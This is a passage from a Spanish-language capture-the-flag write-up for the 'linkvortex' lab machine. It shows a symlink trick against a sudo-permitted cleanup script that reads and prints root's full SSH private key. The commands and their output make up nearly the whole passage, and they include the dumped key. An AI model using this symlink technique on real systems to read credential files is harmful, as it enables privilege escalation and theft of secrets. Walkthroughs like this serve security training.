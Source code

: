 Para obtener una shell como usuario `root` lo que realizamos es el mismo proceso anterior pero a través de la clave privada SSH del usuario `root`.&#x20;

```bash
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa gzzcoo2.txt
bob@linkvortex:~$ ln -s /home/bob/gzzcoo2.txt gzzcoo.png
bob@linkvortex:~$ ls -l
total 4
lrwxrwxrwx 1 bob  bob 21 Jan 19 15:17 gzzcoo.png -> /home/bob/gzzcoo2.txt
lrwxrwxrwx 1 bob  bob 17 Jan 19 15:17 gzzcoo2.txt -> /root/.ssh/id_rsa
-rw-r----- 1 root bob 33 Jan 19 15:14 user.txt
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh gzzcoo.png
Link found [ gzzcoo.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
bob@linkvortex:~$
```
